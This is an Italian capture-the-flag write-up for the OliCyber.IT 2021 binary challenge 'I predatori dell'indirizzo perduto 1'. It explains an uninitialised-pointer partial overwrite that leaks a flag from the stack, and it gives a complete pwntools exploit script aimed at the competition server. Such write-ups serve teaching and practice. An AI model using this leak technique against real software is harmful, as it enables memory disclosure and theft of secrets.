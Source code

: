 # OliCyber.IT 2021 - Competizione nazionale

## [binary-3] I predatori dell'indirizzo perduto 1 (14 risoluzioni)

In questa challenge ci viene fornito il binario `predatori`, insieme al codice sorgente `predatori.c`.  
Questo binario è lo stesso per `I predatori dell'indirizzo perduto 1` e `I predatori dell'indirizzo perduto 2`.

### Soluzione

Leggendo il codice sorgente possiamo notare che la flag viene letta nel `main` dentro a `char flag1_buffer[FLAG_SIZE];`.

Una volta eseguito il programma ci viene fornito un menù con due opzioni:

```
$ ./predatori
Benvenuto ai Predatori dell'indirizzo perduto 1.0. Anche se puoi leggere e scrivere dovunque, non otterrai mai /bin/sh
Sto caricando importanti informazioni, mostrerò poi il menù.
1) LeggiCosaDove
2) ScriviCosaDove
3) Esci
```

La prima opzione, `LeggiCosaDove`, ci permette di leggere 8 bytes da un indirizzo arbitrario in memoria.

La seconda opzione, `ScriviCosaDove`, ci permette di scrivere 8 bytes ad un indirizzo arbitrario in memoria.

Nella funziona `rww` la variabile `void *addr` non è inizializzata correttamente, utilizzando gdb possiamo notare che a runtime conterrà un puntatore allo stack.

<pre><code>► 0x7ffff7f368b6 &lt;rww+63&gt; call read &lt;read&gt;
    fd: 0x0 (/dev/pts/0)
    buf: 0x7fffffffdce0 —▸ <span style="color:red">0x7fffffffdd30</span> —▸ ...
    nbytes: 0x8</code>
</pre>

Passando pochi bytes (1) alla `read` dentro alla funzione `rww` possiamo ottenere una read dallo stack leakando così la flag.

Per esempio passando una singola `'A'`:

<pre><code>&lt;pwndbg&gt; x/gx 0x7fffffffdce0
0x7fffffffdce0:	0x00007fffffffdd<span style="color:red">41</span></code>
</pre>

A questo punto possiamo scriptare una soluzione che grazie a questo partial overwrite ci permette di cercare la flag sullo stack.

### Exploit

```py
#!/usr/bin/env python
from pwn import ELF, context, args, gdb, remote, process, log, \
    p64, u64, ui, ROP


filename = "predatori"
remotehost = ("predatori.challs.olicyber.it", 15006)


def start(argv=[], *a, **kw):
    return remote(*remotehost, *a, **kw)

def menu(choice: int):
    io.sendlineafter(b"3) Esci", f"{choice}".encode())

def read(where):
    menu(1)
    io.sendafter(b"Indirizzo:", where)
    io.recvuntil(b"richiesta.")
    io.recvline()
    return io.recvline().replace(b"1) LeggiCosaDove\n", b"")

def flag1():
    flag1 = b""
    flag_started = False
    flag_start_offset = -1
    for i in range(0, 255, 8):
        leaked_bytes = read(bytes([i]))
        log.debug(f"leaked addr: {leaked_bytes}")
        if b"flag{" in leaked_bytes:
            flag_started = True
            flag_start_offset = i
        if flag_started:
            flag1 += leaked_bytes
        if b"\x00" in leaked_bytes:
            flag_started = False
    flag1 = flag1.replace(b"\x00", b"").strip().decode()
    if flag_start_offset == -1:
        log.error("Flag1 not found")
    else:
        log.success(f"First flag: {flag1}")

if __name__ == "__main__":
    io = start()
    menu(0)
    io.sendlineafter(b"Jones", b"aaaaa")
    stack = flag1()
    io.close()
```

